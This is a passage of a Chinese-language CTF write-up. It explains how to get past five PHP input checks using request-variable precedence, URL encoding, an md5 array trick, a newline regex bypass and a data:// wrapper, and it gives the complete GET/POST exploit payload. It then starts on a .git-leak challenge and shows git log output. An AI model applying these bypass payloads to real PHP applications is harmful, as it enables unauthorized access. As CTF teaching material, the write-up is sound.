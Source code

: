 ### 第一个if

```php
if(preg_match('/[a-zA-Z]/i', $value))
```

如果`$_GET和$_POST`中有同名变量`$_REQUEST`会选择`$_POST`

而后面对变量的引用都是用的`$_GET`，所以可用这种方式绕过

### 第二个if

```php
if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))
```

`$_SERVER['QUERY_STRING']`不会进行url解码，直接url编码绕过即可

### 第三个if

```php
if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige'])))
```

经典的md5绕过，数组即可

### 第四个if

```php
if(preg_match('/nctfisfun$/', $_GET['nctf']) && $_GET['nctf'] !== 'nctfisfun')
```

%0a换行符绕过即可

### 第五个if

```php
$getflag = file_get_contents($_GET['flag']);
```

这一步可用data协议给$getflag赋任何值

所以最终payload

```PHP
GET:
?%79%75%6C%69%67%65[]=1&%6E%63%74%66=%6E%63%74%66%69%73%66%75%6E%0a&%66%6C%61%67=data://text/plain,ccc_liubi
POST:
yulige=1&nctf=2&flag=1
```

## 全球最大交友网站

下载下来就是一个`.git`

```shell
PS C:\Users\25952\Downloads\a> git log
commit 6b21737b59806722a89f33d26658b8508ac009e6 (HEAD, origin/master, master)
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 22:23:49 2018 +0800

    hint

commit 01b878ee5f39810a02f06b4a560571413020ea42 (tag: 1.0)
Author: X1cT34m <2577544522@qq.com>
Date:   Thu Oct 4 22:21:44 2018 +0800

    hello

commit 02b7f44320ac0ec69e954ab39f627b1e13d1d362
```